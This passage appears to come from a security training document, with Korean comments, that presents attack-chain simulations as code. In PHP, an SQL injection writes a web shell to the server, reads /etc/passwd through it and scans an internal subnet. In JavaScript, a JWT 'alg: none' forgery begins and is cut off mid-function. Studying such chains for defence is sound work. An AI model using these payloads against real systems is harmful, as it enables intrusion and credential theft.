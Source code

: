 ### Scenario 2: SQL Injection → RCE → Lateral Movement
```php
// 복합 공격 시뮬레이션 클래스
class AdvancedAttackChain {
    
    public function sqlInjectionToRCE($userInput) {
        // 1단계: SQL Injection으로 파일 생성
        $vulnerableQuery = "SELECT * FROM users WHERE id = '$userInput'";
        
        // 공격 페이로드: '; SELECT '<?php system($_GET[\"cmd\"]); ?>' INTO OUTFILE '/var/www/html/shell.php'; --
        
        // 2단계: 웹쉘을 통한 원격 명령 실행
        $shellAccess = $this->executeWebShell("cat /etc/passwd");
        
        // 3단계: 내부 네트워크 스캔 (Lateral Movement)
        $networkScan = $this->scanInternalNetwork();
        
        return [
            'sql_injection' => $vulnerableQuery,
            'rce_result' => $shellAccess,
            'lateral_movement' => $networkScan
        ];
    }
    
    private function scanInternalNetwork() {
        $internalIPs = [];
        for ($i = 1; $i <= 255; $i++) {
            $ip = "192.168.1.$i";
            // 내부 서비스 스캔 시뮬레이션
            if ($this->pingHost($ip)) {
                $internalIPs[] = $ip;
            }
        }
        return $internalIPs;
    }
}
```

### Scenario 3: JWT Manipulation → API Abuse → Data Exfiltration
```javascript
// JWT 조작을 통한 API 남용 시나리오
const jwtAttackChain = {
    title: "JWT Attack Chain",
    
    // 1단계: JWT 토큰 분석 및 조작
    analyzeJWT: function(token) {
        const [header, payload, signature] = token.split('.');
        const decodedHeader = JSON.parse(atob(header));
        const decodedPayload = JSON.parse(atob(payload));
        
        return {
            header: decodedHeader,
            payload: decodedPayload,
            vulnerabilities: this.checkJWTVulnerabilities(decodedHeader, decodedPayload)
        };
    },
    
    // 2단계: 알고리즘 혼동 공격 (alg: none)
    createNoneAlgorithmToken: function(payload) {
        const header = { "alg": "none", "typ": "JWT" };
        const encodedHeader = btoa(JSON.stringify(header));
```
